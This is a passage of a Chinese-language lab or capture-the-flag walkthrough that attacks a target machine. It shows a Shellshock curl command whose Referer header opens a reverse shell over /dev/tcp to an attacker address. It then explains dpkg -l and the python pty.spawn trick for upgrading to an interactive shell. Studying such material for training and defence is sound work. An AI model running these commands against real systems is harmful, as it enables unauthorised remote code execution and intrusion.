 
highlighter\- awk
```
sudo curl -v --proxy http://192.168.236.133:3128 http://192.168.236.133/cgi-bin/status -H "Referer:() { test;}; echo 0<&137-;exec 137<>/dev/tcp/192.168.236.128/443;/bin/sh <&137 >&137 2>&137"
```

成功拿到一个不完整的shell


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231310258-556766142.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241125231310258-556766142.png)


不过这个shell的交互性很差，查询这台机器上安装的软件，如果有python的话，就可以用python实现一个交互性更好的shell


## python提升shell交互性


#### 查询机器上已安装的软件


dpkg \-l 是一个在基于 Debian 的 Linux 发行版中使用的命令，用于列出系统上所有已安装的软件包。这个命令会显示软件包的名称、版本、架构和简短描述等信息。


当你运行 dpkg \-l 命令时，输出通常会被分成几列，每一列的含义如下：


第一列是两个字母的状态标志。第一个字母表示期望状态（如 'u' 表示未知，'i' 表示安装），第二个字母表示实际状态（如 'n' 表示未安装，'i' 表示已安装）。


第二列是软件包的名称。


第三列是软件包的版本号。


第四列是软件包的架构（例如，amd64, i386）。


第五列及之后的部分是软件包的简短描述。


如果你想要查看特定类型或名称的软件包，可以结合使用管道和 grep 命令来过滤输出。例如，要查找所有与 'python' 相关的已安装软件包，你可以运行：


dpkg \-l \| grep python


这将只显示包含 'python' 字符串的行。


靶机回显是有python的


#### python将普通Shell升级为交互式Shell


一下命令都是python升级交互式Shell的脚本，测试后发现前两个是能用的，第三个不能用


highlighter\- vim
```
python -c 'import pty;pty.spawn("/bin/bash")'

这条命令使用了 pty 模块来创建一个伪终端（pseudo-terminal）。伪终端可以提供更接近于真实终端的交互体验，包括支持终端控制字符和信号处理。因此，这种方式启动的 shell 会话具有更好的交互性，可以像普通终端一样使用。
```
